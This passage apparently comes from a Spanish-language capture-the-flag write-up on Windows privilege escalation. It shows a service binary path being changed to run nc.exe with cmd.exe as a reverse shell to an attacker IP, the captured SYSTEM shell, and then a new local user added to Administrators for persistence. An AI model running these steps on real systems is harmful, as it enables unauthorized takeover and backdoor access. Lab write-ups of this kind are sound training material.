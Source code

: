 
Se debe configurar el servicio para que ejecute el binario con el comando necesario.


```powershell
sc.exe config VMTools binpath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.17 1234"
```
{: .nolineno}

Detener el servicio , ponerse a la escucha y ejecutarlo respectivamente:

```powershell
sc.exe stop VMTools
```
{: .nolineno}


```bash
nc -lvp 1234
```
{: .nolineno}

```powershell
sc.exe start VMTools
```
{: .nolineno}


Y con eso se gana una shell de maximos privilegios dentro del sistema.

```bash
nc -lvp  1234
listening on [any] 1234 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.108] 57535
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Obtener Shell Estable

Ahora, el problema es que la shell que se obtiene se cae después de un tiempo. Por lo que es necesario buscar una solución y, de paso, asegurar permanencia dentro del equipo. La solución para esto es **crear un usuario** y otorgarle **altos privilegios** antes de que se caiga, para así interactuar con el equipo de la forma más cómoda.

Para crear el usuario se puede hacer ayuda del comando net:

```powershell
net user madlies Password123! /add
```
{: .nolineno}


Y para darle altos privilegios se puede usar el comando


```powershell
net localgroup Administrators madlies /add
```
{: .nolineno}
